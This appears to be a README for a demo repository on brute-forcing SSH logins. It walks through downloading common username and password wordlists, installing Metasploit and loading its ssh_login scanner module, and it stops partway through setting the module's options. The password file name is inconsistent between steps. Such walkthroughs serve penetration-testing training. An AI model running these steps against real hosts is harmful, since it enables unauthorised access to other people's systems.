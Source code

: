 # Bruteforcing-SSH
This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 

# First download a list of common users & weak passwords
curl https://download.weakpass.com/wordlists/90/rockyou.txt.gz | gunzip > /tmp/passwords.txt
curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt > /tmp/users.txt

# Just so you are familiar, take at the content and format of the files 
`head /tmp/passwords.txt`
`head /tmp/users.txt`

# Download the latest version of Metasploit Framework (OSS)
`curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall`   

# set correct Permissions 
`chmod 755 msfinstall`

# Run the install script
`./msfinstall`

# By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path:
``ls /opt/
google  metasploit-framework``

`echo $PATH`
/home/mhillis/.local/bin:/home/mhillis/bin:/usr/share/Modules/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/var/lib/snapd/snap/bin

# Add the /opt/metasploit-framework/bin/ directory to our path
`PATH=/opt/metasploit-framework/bin/:$PATH`

# Add Metasploit repo to our systems and make sure we have the latest version of metasploit
`msfupdate`

# Launch the metasploit framework console
`msfconsole`

# List the available exploits modules for metasploit
`show exploits`

# Because there are over 2000 exploits it may make more sense to search for one we're looking for
`search ssh login`

# use the auxiliary/scanner/ssh/ssh_login module
`use auxiliary/scanner/ssh/ssh_login'

# List the options available for this module
`options`

# Define some of these module options to launch a brute force attack against a target host
`set pass_file /tmp/password.txt`
